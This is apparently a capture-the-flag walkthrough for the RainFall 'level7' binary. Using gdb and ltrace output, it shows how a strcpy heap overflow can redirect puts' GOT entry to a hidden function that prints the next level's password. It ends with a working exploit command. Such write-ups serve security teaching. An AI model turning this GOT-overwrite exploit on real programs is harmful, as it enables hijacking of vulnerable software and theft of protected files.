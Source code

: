 # level7
The program has buffer overflow vulnerability.
- It segaults when `argv[2]` doesn't exist.
- It segfaults when `argv[1]` is too long.


Four sections in the program:

- It copies `argv[1]` and `argv[2]` using `strcpy` into two  allocated memory blocks of 8 bytes each, without checking the size of the input.

- The program reads the aimed flag file with `fopen` and `fgets`, then store the content (the flag) in a global string named `c`.

- At the end, it prints a useless message  with `puts("~~")`

- A function `m` prints the content of `c` but is never called.

## Goal
Overflow the allocated memory with `strcpy` to call `m()` instead of `puts()` by changing the address of `puts` by `m` in the __GOT__.

## Step 1
The program SEGFAULTS when `argv[1]` is too long.


```console
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A youhouu
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A youhouu

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f82 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb)
```
- `0xb7eb8f82` is not a segment of the pattern.  

- Deduction : The overflow doen'st overwrites the next instruction pointer `eip`.

---

Info registers
```console
(gdb) i r
eax            0x68756f79	1752526713
ecx            0xbffff8e0	-1073743648
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f82	0xb7eb8f82
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

It overwrites `eax` and `edx`

## Step 2
Go deeper

```bash
level7@RainFall:~$ ltrace ./level7 AAAA ok
```

```console
__libc_start_main(0x8048521, 3, 0xbffff7c4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                     = 0x0804a008
malloc(8)                                                                                                     = 0x0804a018
malloc(8)                                                                                                     = 0x0804a028
malloc(8)                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAA")                                                                                    = 0x0804a018
strcpy(0x0804a038, "ok")                                                                                      = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                                                         = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
`argv[1]` is copied at `0x0804a018`: "AAAA"  
`argv[2]` is copied at `0x0804a038`: "ok"

---

```bash
level7@RainFall:~$ ltrace ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH ok
```

```console
__libc_start_main(0x8048521, 3, 0xbffff7a4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                     = 0x0804a008
malloc(8)                                                                                                     = 0x0804a018
malloc(8)                                                                                                     = 0x0804a028
malloc(8)                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH")                                                        = 0x0804a018
strcpy(0x46464646, "ok" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
The destination of the second `strcpy` is overwritten when `argv[1]` is greater than 20 bytes.

### Solution
Since the destination of the second `strcpy` can be overwritten, We have to replace the destination by the location of `puts` in the __GOT__.  

Then, we can change the value at the location of `puts` in the __GOT__ by the address of `m` function. (The PLT will still link the binary call to the `puts` entry in the __GOT__)

> Remember: The GOT is an  address table of the dependencies. 

## Step 3
Find the address of `m`
```bash
(gdb) info function
```
```console
All defined functions:

Non-debugging symbols:
0x080484f4  m
0x08048521  main
```

`m` is at `0x080484f4`

## Step 4
Find the location in the __GOT__ where the address of `puts` is stored.
```bash
readelf -r level7
```
```console
08049928  00000607 R_386_JUMP_SLOT   00000000   puts
```

Address of `puts` is at `0x08049928` in the __GOT__.

### Verification
```console
(gdb) disas main
[...]
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
[...]
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
```


## Exploit
```bash
/home/user/level7/level7 $(python -c 'print "\x90" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```